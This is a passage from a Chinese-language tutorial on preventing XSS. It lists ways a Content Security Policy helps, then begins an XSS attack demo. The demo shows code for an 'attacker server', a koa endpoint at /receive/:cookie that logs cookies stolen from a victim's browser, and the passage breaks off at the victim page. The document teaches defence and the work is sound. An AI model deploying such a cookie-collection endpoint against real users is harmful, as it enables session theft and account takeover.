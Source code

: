### <a name="href5-6">Content Security Policy</a> ###

严格的 CSP 在 XSS 的防范中可以起到以下的作用:

1. 禁止加载外域代码，防止复杂的攻击逻辑;
2. 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域;
3. 禁止内联脚本执行(规则较严格，目前发现 GitHub 使用);
4. 禁止未授权的脚本执行(新特性，Google Map 移动版在使用);
5. 合理使用上报可以及时发现 XSS，利于尽快修复问题。

## <a name="href6">XSS攻击实例</a> ##

### <a name="href6-7">文章编辑与访问</a> ###

1. 攻击者服务器(Node.js koa服务器，域名`http://127.0.0.1:2222`)

只配置一个简单的接口"/receive/:cookie"，代码如下:

```js
async function get (ctx, next) {
    const { cookie } = ctx.params;

    ctx.set({
        'Access-Control-Allow-Origin': '*',
        'Content-Type': 'application/x-www-form-urlencoded'
    });

    ctx.body = JSON.stringify({ result: 1 });
    console.log(cookie);
}
```

捕捉到接口获取的 cookie 数据并打印出来。

2. 受害者客户端(Dva 框架，域名`http://127.0.0.1:20151`)

编辑页:

![image](https://raw.githubusercontent.com/WebUnion-core/anthill/master/WJT20/images/w138.png)
